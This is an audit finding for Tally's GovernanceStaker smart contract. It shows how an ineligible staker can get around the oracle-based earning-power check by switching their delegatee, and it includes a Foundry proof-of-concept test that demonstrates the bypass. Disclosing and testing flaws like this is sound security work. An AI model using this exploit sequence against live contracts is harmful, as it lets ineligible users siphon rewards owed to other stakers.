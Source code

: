 Able Boysenberry Koala

High

# Oracle Earning Score Can Be Bypassed, Allowing Ineligible Users To Receive Rewards

## Summary

When a **inelegible** user with a score below the threshold, alters the delegatee to another user that is **elegible**, it will calculate his new earning power based on the score of the other delegatee. Meaning return the balance of the deposit as earning power OR if that delegatee is **inelegible** return 0.
[code](https://github.com/sherlock-audit/2024-11-tally/blob/b125d1f2b52170a3789b1060a52fc6609e6e2262/staker/src/GovernanceStaker.sol#L624-L648)

```solidity
uint256 _newEarningPower =
      earningPowerCalculator.getEarningPower(deposit.balance, deposit.owner, _newDelegatee);
```
```solidity
  function getEarningPower(uint256 _amountStaked, address, /* _staker */ address _delegatee)
    external
    view
    returns (uint256)
  {
    if (_isOracleStale() || isOraclePaused) return _amountStaked;
    return _isDelegateeEligible(_delegatee) ? _amountStaked : 0;
  }
```

Afterwards it sets the new earning power to this deposit.

```solidity
deposit.earningPower = _newEarningPower.toUint96();
```

Additionally this earning power cannot be bumped down. 
due to the condition `_newEarningPower == deposit.earningPower` in `bumpEarningPower` being true causing a revert.

## Vulnerability Detail
While a user is **not elegible** to receive rewards, it can delegate to another user to receive rewards which undermines entire functionality of a earning score. 

## Impact
Other users receive lower rewards while a person that in **not elegible** receive rewards.

## Code Snippet
https://github.com/sherlock-audit/2024-11-tally/blob/b125d1f2b52170a3789b1060a52fc6609e6e2262/staker/src/GovernanceStaker.sol#L624-L648

## POC

Add the following contract to the existing test file GovernanceStaker.t.sol
and run it with `forge test --mt testByPassOracle`
```solidity
contract JoeMamaTest is GovernanceStakerTest {

    address owner = makeAddr("owner");
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address joe = makeAddr("joe");

    address scoreOracle = makeAddr("scoreOracle");
    uint256 staleOracleWindow = 7 days;
    address oraclePauseGuardian = makeAddr("oraclePauseGuardian");
    uint256 delegateeScoreEligibilityThreshold = 400;
    uint256 updateEligibilityDelay = 1 days;

   BinaryEligibilityOracleEarningPowerCalculator calculator = new BinaryEligibilityOracleEarningPowerCalculator(
      owner,
      scoreOracle,
      staleOracleWindow,
      oraclePauseGuardian,
      delegateeScoreEligibilityThreshold,
      updateEligibilityDelay
    );

  function testByPassOracle(
   
  ) public {

    _mintGovToken(alice, 1e18);
    _mintGovToken(bob, 1e18);
    _mintGovToken(joe, 1e18);

    rewardToken.mint(rewardNotifier, 1e18);

    vm.prank(admin);
    govStaker.setEarningPowerCalculator(address(calculator));

    // set alice to elegible 
    vm.prank(scoreOracle);
    calculator.updateDelegateeScore(alice, 500);

    // set bob to elegible
    vm.prank(scoreOracle);
    calculator.updateDelegateeScore(bob, 500);

    // set joe is not elegible 
    vm.prank(scoreOracle);
    calculator.updateDelegateeScore(joe, 0);

    // have an active oracle.
    vm.prank(scoreOracle);
    calculator.updateDelegateeScore(address(0), 0);

    GovernanceStaker.DepositIdentifier _depositIdBob = _stake(bob, 1e18, bob);
    GovernanceStaker.DepositIdentifier _depositIdAlice  = _stake(alice, 1e18, alice);
    GovernanceStaker.DepositIdentifier _depositIdJoe = _stake(joe, 1e18, joe);

    // distribute 1e18 over the 1 month period.
    vm.startPrank(rewardNotifier);
    rewardToken.transfer(address(govStaker), 1e18);
    govStaker.notifyRewardAmount(1e18);
    vm.stopPrank();

    // have an active oracle.
    vm.prank(scoreOracle);
    calculator.updateDelegateeScore(address(0), 0);

    vm.prank(joe);
    govStaker.alterDelegatee(_depositIdJoe,bob);

    skip(30 days);
    vm.roll(block.timestamp + 30);
    
     // have an active oracle.
    vm.prank(scoreOracle);
    calculator.updateDelegateeScore(address(0), 0);

    vm.prank(bob);
    uint256 rewardBob = govStaker.claimReward(_depositIdBob);
    assertEq(rewardBob,333333333333333333);

    vm.prank(alice);
    uint256 rewardALice = govStaker.claimReward(_depositIdAlice);
    assertEq(rewardALice, 333333333333333333);

    // this should be 0 because Joe has no voting power.
    vm.prank(joe);
    uint256 rewardJoe = govStaker.claimReward(_depositIdJoe);
    assertEq(rewardJoe, 333333333333333333);
  
  }
}
```

## Tool used

Manual Review

## Recommendation
To prevent users from bypassing the oracle it should not increase the deposits earning power while altering delegatee.
